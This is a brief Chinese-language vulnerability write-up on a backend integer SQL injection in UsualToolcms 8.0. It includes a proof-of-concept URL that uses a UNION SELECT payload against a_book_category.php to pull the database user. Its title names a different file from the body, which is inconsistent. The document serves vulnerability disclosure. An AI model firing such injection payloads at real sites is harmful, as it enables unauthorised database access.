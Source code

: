 UsualToolcms 8.0 a\_users\_level.php 后台int型注入
==================================================

一、漏洞简介
------------

后台a\_book\_category.php int型注入

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

该php文件下另外一个触发点：

![2.png](./.resource/UsualToolcms8.0a_users_level.php后台int型注入/media/rId24.png)

### poc

    http://www.0-sec.org/cmsadmin/a_book_category.php?t=mon&id=-1%20union%20select%201,user(),3%23

![2.png](./.resource/UsualToolcms8.0a_users_level.php后台int型注入/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/8100
